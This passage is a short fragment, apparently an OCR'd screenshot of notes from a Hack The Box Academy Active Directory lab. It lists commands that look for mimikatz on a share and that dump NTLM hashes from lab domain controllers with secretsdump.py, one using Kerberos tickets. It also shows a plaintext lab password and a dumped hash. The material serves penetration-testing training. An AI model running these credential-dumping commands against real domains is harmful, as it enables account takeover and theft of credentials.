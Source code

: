 dir mimikatz /s
WHERE /r \\Server64\Share1 Zappa.*

secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-ntlm
HTB_@cademy_stdnt_admin!

secretsdump.py -just-dc-ntlm LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5 | grep bross
inlanefreight.local\bross:1179:aad3b435b51404eeaad3b435b51404ee:49a074a39dd0651f647e765c2cc794c7:::
